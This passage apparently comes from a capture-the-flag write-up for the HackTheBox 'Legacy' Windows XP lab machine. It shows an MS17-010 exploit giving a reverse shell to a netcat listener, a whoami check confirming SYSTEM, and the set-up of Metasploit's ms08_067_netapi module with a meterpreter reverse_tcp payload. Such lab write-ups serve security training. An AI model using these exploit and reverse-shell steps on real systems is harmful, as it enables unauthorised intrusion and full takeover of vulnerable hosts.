 ```shell
Removing service JPzI.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

And as soon as the exploit completes we get a call back on our listener, we can use the same SMB hosted `whomai.exe` binary to confirm we are running as system:

```shell
cfx:  ~/Documents/htb/legacy/MS17-010
→ nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1031.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>\\10.10.14.14\cfx\whoami.exe
\\10.10.14.14\cfx\whoami.exe
NT AUTHORITY\SYSTEM
```

## Metasploit

We can easily own the box using Metasploit, since it has built in exploits for both the vulnerabilities.
Lets run Metasploit using `msfconsole` and use `exploit/windows/smb/ms08_067_netapi`. We'll then set the payload, other parameters and fire up the exploit.

Similar to above two methods, we can verify if we running as system using our `whoami.exe` binary.

```shell
cfx:  ~/Documents/htb/legacy/MS17-010
→ msfconsole

     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 566 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Save the current environment with the save command, future console restarts will use this environment again

msf5 > use exploit/windows/smb/ms08_067_netapi
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
```